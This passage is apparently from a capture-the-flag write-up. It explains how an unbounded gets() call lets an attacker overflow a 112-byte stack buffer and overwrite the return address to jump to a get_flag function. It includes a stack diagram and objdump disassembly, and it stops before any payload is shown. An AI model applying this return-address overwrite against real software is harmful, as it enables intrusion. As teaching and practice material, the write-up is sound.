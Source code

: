 This was obviously the function that we need to run but because it isn't called from any other function we have no way of executing it in the normal flow of the program.

Fortunately, the gets() call in the main function is vulnerable to a buffer overflow attack because it doesn't limit the number of bytes that we write to the input buffer. We can overflow the 112 allocated bytes to overwrite the return address on the stack. Below is a rough diagram of our stack, remembering that the stack grows downwards to lower addresses but local variables are filled upwards towards higher addresses. We can write to the allocated 112 bytes for our local variable, then 8 bytes over the saved base pointer address and then the next 8 bytes we write will be the return address.

```
        higher addresses
|              ...             |
|        previous frame        |
+------------------------------+    --+
|        return address        |      |--- The return address we need to overwrite to point to get_flag
+------------------------------+    --+
|          saved RBP           |
+------------------------------+    --+
|           RBP - 8            |      |
+------------------------------+      |
              ...                     |--- The local variable buffer stack space we can overflow
+------------------------------+      |
|           RBP - 14           |      |
+------------------------------+    --+
         lower addresses
```

Using objdump, I found the address of get_flag function was 0x4005ea.

```
tmp@localhost:~/ctf/utctf/bof$ objdump -d pwnable | less
```

```
00000000004005ea <get_flag>:
  4005ea:       55                      push   %rbp
  4005eb:       48 89 e5                mov    %rsp,%rbp
  4005ee:       48 83 ec 20             sub    $0x20,%rsp
  4005f2:       89 7d ec                mov    %edi,-0x14(%rbp)
  4005f5:       81 7d ec ef be ad de    cmpl   $0xdeadbeef,-0x14(%rbp)
  4005fc:       75 2a                   jne    400628 <get_flag+0x3e>
  4005fe:       48 c7 45 f0 00 07 40    movq   $0x400700,-0x10(%rbp)
  400605:       00 
  400606:       48 c7 45 f8 00 00 00    movq   $0x0,-0x8(%rbp)
  40060d:       00 
  40060e:       48 8b 45 f0             mov    -0x10(%rbp),%rax
  400612:       48 8d 4d f0             lea    -0x10(%rbp),%rcx
  400616:       ba 00 00 00 00          mov    $0x0,%edx
  40061b:       48 89 ce                mov    %rcx,%rsi
  40061e:       48 89 c7                mov    %rax,%rdi
  400621:       e8 6a fe ff ff          callq  400490 <execve@plt>
  400626:       eb 01                   jmp    400629 <get_flag+0x3f>
  400628:       90                      nop
  400629:       c9                      leaveq 
  40062a:       c3                      retq   
  40062b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)
```
